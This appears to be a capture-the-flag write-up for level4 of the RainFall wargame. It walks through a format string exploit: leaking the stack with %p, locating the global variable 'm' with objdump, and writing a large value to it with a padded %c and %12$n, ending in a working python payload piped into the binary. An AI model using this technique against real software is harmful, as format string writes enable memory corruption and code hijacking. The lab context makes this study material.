 We start by opening the binary in dogbolt here we see that it is the same vulnerabilty that the previous level.
However this level has a dificulty that the first one didn't have here we must put 16930116 char in `m`,
it is a problem since it exceed pipe capacity or command size.

Ok so will use the same step as the previous level first we will find the address of the buffer we write in:
```
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```
Here the buffer start at %12$p

Ok lets find m `m` with objdump :
objdump : ```
...
08049810 g     O .bss   00000004              m
...
```
address : 08049810
little endian : \x10\x98\x04\x08

And the the tricky part :
How can we put so many characters ?
The simple response is by using the printf fill like
Ok lets tried to use it :
```C
#include <stdio.h>

int main()
{
        printf("%-3c%c\n", 'a','b');
}
```
Output:
```
a  b
```

Ok so now we now to do it lets puts things to gether:
[address][16930116 - 4(address) : %16930112c][the current buffer address]
python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit && cat /tmp/exploit | ./level4
